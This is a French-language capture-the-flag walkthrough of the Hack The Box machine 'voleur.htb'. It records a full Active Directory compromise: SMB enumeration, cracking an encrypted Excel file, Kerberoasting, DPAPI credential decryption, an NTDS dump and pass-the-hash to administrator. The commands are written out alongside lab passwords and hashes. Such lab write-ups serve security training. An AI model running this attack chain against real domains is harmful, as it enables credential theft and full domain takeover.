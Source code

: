# TARGET: voleur.htb

**IP:** `10.10.11.76`
**Domain:** `voleur.htb`
**DC:** `dc.voleur.htb`

---

## Résumé

Engagement Active Directory. Accès initial via Kerberos TGT pour `ryan.naylor`. SMB enumeration et extraction d'un fichier Excel chiffré contenant des credentials. Cracking et utilisation des comptes pour kerberoast ciblé, WinRM et récupération de clés DPAPI. Découverte d'une clé SSH et accès à `svc_backup` via WSL. Extraction du AD database (ntds.dit) et dump des NTLM permettant compromission de `administrator`.

---

## 1) Configuration Kerberos

`/etc/krb5.conf` utilisé :

```ini
[libdefaults]
  default_realm = VOLEUR.HTB
  dns_lookup_realm = false
  dns_lookup_kdc = false

[realms]
  VOLEUR.HTB = {
    kdc = dc.voleur.htb
  }

[domain_realm]
  .voleur.htb = VOLEUR.HTB
  voleur.htb   = VOLEUR.HTB
```

---

## 2) Obtention du TGT initial (ryan.naylor)

```bash
getTGT.py -dc-ip 10.10.11.76 'voleur.htb/ryan.naylor:HollowOct31Nyt'
export KRB5CCNAME=ryan.naylor.ccache
```

---

## 3) SMB enumeration avec Kerberos

```bash
netexec smb DC.VOLEUR.HTB -u ryan.naylor -p 'HollowOct31Nyt' -k --shares
netexec smb enum DC.VOLEUR.HTB --use-kcache --share IT --dir ""
netexec smb enum DC.VOLEUR.HTB --use-kcache --share IT --dir "First-Line Support"
```

Téléchargement du fichier Excel chiffré:

```bash
netexec smb DC.VOLEUR.HTB --use-kcache --get-file "First-Line Support/Access_Review.xlsx" "./Access_Review.xlsx" --share IT
```

---

## 4) Cracking du mot de passe du fichier Excel

```bash
office2john Access_Review.xlsx > xlsx.h
john xlsx.h --wordlist=/usr/share/wordlists/rockyou.txt
```

**Résultat:** `football1`

Décryptage et extraction:

```bash
msoffcrypto-tool -p "football1" Access_Review.xlsx decrypted.xlsx
xlsx2csv decrypted.xlsx | sed -n '5p;12p;13p'
```

Credentials extraits (exemples):

```
Todd.Wolfe - Password was reset to NightT1meP1dg3on14 and account deleted
svc_ldap - P/W - M1XyC9pW7qT5Vn
svc_iis - P/W - N5pXyW1VqM7CZ8
```

---

## 5) Kerberoast ciblé

Utiliser `svc_ldap` pour demander des tickets pour `svc_winrm`:

```bash
getTGT.py -dc-ip 10.10.11.76 'voleur.htb/svc_ldap:M1XyC9pW7qT5Vn'
export KRB5CCNAME=svc_ldap.ccache
targetedKerberoast.py -v --dc-ip 10.10.11.76 --dc-host dc.VOLEUR.HTB -d "voleur.htb" -u "svc_ldap" -k --request-user svc_winrm -o kerberostable.txt
```

Extrait un TGS hash (format krb5tgs...).

Crack avec John:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt --format=krb5tgs kerberostable.txt
```

**Résultat:** `svc_winrm:AFireInsidedeOzarctica980219afi`

---

## 6) Accès WinRM avec svc_winrm

```bash
getTGT.py -dc-ip 10.10.11.76 'voleur.htb/svc_winrm:AFireInsidedeOzarctica980219afi'
export KRB5CCNAME=FILE:svc_winrm.ccache
evil-winrm -i dc.voleur.htb -k -u svc_winrm -r VOLEUR.HTB
```

---

## 7) Restauration du compte Todd.Wolfe (comptes supprimés)

```powershell
$cred = [PSCredential]::new("svc_ldap@voleur.htb", (ConvertTo-SecureString "M1XyC9pW7qT5Vn" -AsPlainText -Force))
Import-Module ActiveDirectory
Get-ADObject -Filter {sAMAccountName -eq "todd.wolfe"} -IncludeDeletedObjects -Credential $cred | Restore-ADObject -Credential $cred
Get-ADUser todd.wolfe
```

---

## 8) Accès SMB avec Todd.Wolfe

```bash
getTGT.py -dc-ip 10.10.11.76 'voleur.htb/todd.wolfe:NightT1meP1dg3on14'
KRB5CCNAME=todd.wolfe.ccache smbclient.py -k -no-pass VOLEUR.HTB/todd.wolfe@dc.voleur.htb

# naviguer:
use IT
cd "Second-Line Support"
cd "Archived Users"
cd todd.wolfe
```

---

## 9) DPAPI — extraction de credentials

Trouvé dans `AppData/Roaming/Microsoft/`.

Récupération du masterkey et décryptage:

```bash
# extraire masterkey
dpapi.py masterkey -file "protect/S-1-5-21-3927696377-1337352550-2781715495-1110/08949382-134f-4c63-b93c-ce52efc0aa88" -sid "S-1-5-21-3927696377-1337352550-2781715495-1110" -password "NightT1meP1dg3on14"

# résultat masterkey
# 0xd2832547d1d5e0a01ef271ede2d299248d1cb0320061fd5355fea2907f9cf879d10c9f329c77c4fd0b9bf83a9e240ce2b8a9dfb92a0d15969ccae6f550650a83

# déchiffrer credential
dpapi.py credential -file "credentials/772275FAD58525253490A9B0039791D3" -key 0xd283...650a83
```

**Résultat DPAPI:** `Username: jeremy.combs Password: qT3V9pLXyN7W4m`

---

## 10) Accès avec Jeremy.Combs

```bash
getTGT.py -dc-ip 10.10.11.76 'voleur.htb/jeremy.combs:qT3V9pLXyN7W4m'
export KRB5CCNAME=FILE:jeremy.combs.ccache

# evil-winrm (fonctionne mais peu utile)
evil-winrm -i dc.voleur.htb -k -u jeremy.combs -r VOLEUR.HTB

# SMB avec Kerberos
auth via smbclient.py -k -no-pass VOLEUR.HTB/jeremy.combs@dc.voleur.htb
```

---

## 11) Clé SSH trouvée

Fichier `id_rsa` trouvé dans SMB share. Contenu format OpenSSH private key. Exemple d'utilisation via WSL:

```bash
chmod 400 id_rsa
ssh -p 2222 -i id_rsa svc_backup@voleur.htb
```

---

## 12) Accès svc_backup via WSL

SSH vers `svc_backup` sur port `2222` en utilisant `id_rsa`.

---

## 13) Extraction AD database (NTDS)

Fichiers trouvés sous `/mnt/c/IT/THIRD-LINE SUPPORT/` :

```
./Active Directory: ntds.dit ntds.jfm
./registry: SECURITY SYSTEM
```

Dump des NTLM:

```bash
secretsdump.py -system SYSTEM -security SECURITY -ntds ntds.dit LOCAL
```

**Hash administrateur extrait:**

```
administrator:500:aad3b435b51404eeaad3b435b51404ee:e656e07c56d831611b577b160b259ad2:::
```

---

## 14) Passage au compte Administrator

```bash
getTGT.py -dc-ip 10.10.11.76 -hashes :e656e07c56d831611b577b160b259ad2 voleur.htb/administrator
export KRB5CCNAME=FILE:administrator.ccache
evil-winrm -i dc.voleur.htb -k -u administrator -r VOLEUR.HTB
```

---

## 15) Récapitulatif des credentials

```
ryan.naylor:HollowOct31Nyt (Initial access)
Todd.Wolfe:NightT1meP1dg3on14 (Restored account)
svc_ldap:M1XyC9pW7qT5Vn (Excel file)
svc_iis:N5pXyW1VqM7CZ8 (Excel file)
svc_winrm:AFireInsidedeOzarctica980219afi (Kerberoasted)
jeremy.combs:qT3V9pLXyN7W4m (DPAPI)
administrator:e656e07c56d831611b577b160b259ad2 (NTDS dump)
```

---

## Remarques

* Toutes les actions supposent un cadre légal et des autorisations appropriées (lab, HTB).
* Conserver preuves et logs.
* Certains outils demandent des versions spécifiques et les opérations Kerberos requièrent des configurations locales correctes.

